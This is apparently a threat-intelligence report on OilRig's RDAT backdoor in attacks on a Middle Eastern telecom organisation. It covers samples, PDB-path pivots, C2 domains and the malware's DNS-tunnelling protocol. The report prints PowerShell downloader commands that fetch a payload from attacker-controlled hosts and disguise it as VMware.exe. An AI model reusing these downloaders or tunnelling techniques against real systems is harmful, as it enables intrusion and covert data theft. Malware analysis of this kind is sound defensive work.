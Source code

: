 In April 2020, we observed activity involving the potential breach of a telecommunications organization in the Middle East. The files associated with this activity included custom Mimikatz samples for dumping credentials, a sample of the Bitvise client we believe was used to create SSH tunnels, and a custom backdoor called RDAT. From the initial RDAT sample we collected, we were able to expand the sample set and relate previously seen ISMDOOR samples as well. Given the combination of the use of RDAT in OilRig-related webshells, code similarities and tactical similarities, we are confident RDAT is a tool deployed by OilRig.
Two of the related tools collected had PDB paths similar to ones we had seen in the past. The PDB paths were C:\Users\Void\Desktop\dns\client\x64\Release\client.pdb and C:\Users\Void\Desktop\RDAT\client\x64\Release\client.pdb, the latter of which is the basis of the tool name. Using the file path of the user in the PDB string of C:\Users\Void\Desktop as shown in Figure 1, we gathered over a dozen samples with that file path, with most of the samples identified as a known OilRig tool called ISMDOOR. Considering the small cluster of related tools, it is highly likely these have been developed by a single adversary or adversary group with control over the codebase.

Figure 1. Pivots from PDB strings
We also observed PowerShell downloaders attempting to retrieve files from the domain digi.shanx[.]icu.

Figure 2. PowerShell and infrastructure overlaps
In Symantec’s Greenbug report, once the adversary gained interactive access to target hosts, they were observed executing PowerShell commands to perform post-exploitation activities. In one instance, a Powershell script was executed to retrieve RDAT from the C2 apps.vvvnews[.]com, save it to C:\Programdata\Nt.dat, and move it to C:\Programdata\Vmware\VMware.exe as seen in the following snippet:
(New-Object System.Net.WebClient).DownloadFile('http://apps[.]vvvnews .com:8080/Yf.dat', 'C:\Programdata\Nt.dat');
move C:\Programdata\Nt.dat C:\Programdata\Vmware\VMware.exe -force;
During our research, we collected a very similar PowerShell script using a different C2 and with some variations in commands, but with the same file path of C:\Programdata\Nt.dat:
$WebClient = New-Object System.Net.WebClient; $WebProxy = New-Object System.Net.WebProxy('http://192.168.3.4:8080',$true); $WebClient.Proxy = $WebProxy;Try {$WebClient.DownloadFile('http://digi.shanx[.]icu:8080/Nt.dat','C:\Programdata\Nt.dat')} Catch {$_.Exception.Message | out-file C:\Programdata\Exceptions.dat};
Unfortunately, we could not verify the contents of Nt.dat due to the C2 server http://digi.shanx[.]icu:8080 being unavailable at the time of analysis.
RDAT Backdoor
The adversaries compiled the RDAT payloads used in the attacks on the Middle Eastern telecommunications organization on March 1, 2020, and configured it to use a domain provided on the command line or the hardcoded domain rsshay[.]com as its C2 server. Unlike previous RDAT samples, this particular sample only uses DNS tunneling for its C2 communications with no HTTP fallback channel. This RDAT sample can only use TXT queries in its DNS tunnel and will issue queries structured like the following:
<encoded data>.<encoding method, 0 for base64 or 1 for base32><encryption key>.<C2 domain>
The encoded data portion of the subdomain is encoded base32 if the actor includes a command line argument 1 – otherwise, it uses base64. The payload also substitutes characters within the base64 encoded subdomain to avoid including characters that are not allowed in domain names, such as = with -, / with _ and + with -a. For example, we observed the following beacon during our testing:
91mzXgXT-a9sLktr-aOz8pAw--.0R2.rsshay[.]com
The encoded data in the beacon (subdomain) is ciphertext generated using AES and a 16-byte key generated by concatenating two randomly chosen alphanumeric characters that are also present in the subdomain immediately before the C2 domain. For instance, if the two random alphanumeric characters included in the subdomain were R2, the payload would use the string R2R2R2R2R2R2R2R2 as a key to encrypt the data. The example beacon above would decrypt to 1,6,1.0_Y,2619, which is structured as follows:
<communications type value>,<ID value from config>,<hardcoded payload version>,<randomly generated number>
The payload decodes the response for an answer to the TXT query with base64 and decrypts using the same AES cipher and key as the request. The payload attempts to parse the decrypted cleartext using the regular expression “[^,]+” to get the command value and the command arguments that are split with a comma. The payload then checks the command value using a command handler that has the ability to execute commands and upload and download files, as seen in Table 1.
